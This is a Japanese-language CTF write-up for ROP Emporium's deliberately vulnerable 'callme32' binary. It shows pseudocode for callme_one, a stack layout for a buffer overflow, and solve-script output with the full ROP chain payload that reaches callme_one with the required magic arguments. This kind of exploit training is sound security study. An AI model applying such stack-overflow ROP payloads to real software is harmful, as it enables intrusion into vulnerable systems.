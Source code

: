 ```

callme_oneの疑似コードを以下に載せる

```
callme_one(ebp+0x8(a),ebp+0xc(b),ebp+0x10(c)){
	if(a == 0xdeadbeef && b == 0xcafebabe && c == 0xd00df00d){
		enc = fopen("encrypted_flag.dat","r")
		if(enc != 0){
			//読み込めた場合
			mallocated = malloc(0x21)
			if(mallocated != 0){
				fgets(mallocated,0x21,ebp-0xc);
				fclose();
				puts("callme_one() called correctly");
			}else{
				puts()
			}
		}
	}else{
		puts("Incorrect parameters")
	}
	exit()
}
```



うーんとりあえずebxが何してるかわからないから

a,b,cの比較を突破してやるか

|  アドレス  |           内容            |
| :--------: | :-----------------------: |
|  esp - >   |            ...            |
| ebp - 0x28 |           AAAA            |
|   ebp ->   |           AAAA            |
| ebp + 0x4  |     saved ebp() AAAA      |
| ebp + 0x8  | return address callme_one |
| ebp + 0xc  |           BBBB            |
| ebp + 0x10 |        0xdeadbeef         |
| ebp + 0x14 |        0xcafebabe         |
| ebp + 0x18 |        0xd00df00d         |



```
❯ python3 mysolve.py
[*] '/mnt/nvme0n1p7/security/rop-emporium/callme32/callme32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
[+] Starting local process './callme32': pid 83546
[+] ROPchain = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf0\x84\x04\x08BBBB\xef\xbe\xad\xde\xbe\xba\xfe\xca\r\xf0\r\xd0'
[+] Receiving all data: Done (106B)
[*] Process './callme32' stopped with exit code -11 (SIGSEGV) (pid 83546)
[b'callme by ROP Emporium', b'x86', b'', b'Hope you read the instructions...', b'', b'> Thank you!', b'callme_one() called correctly', b'']
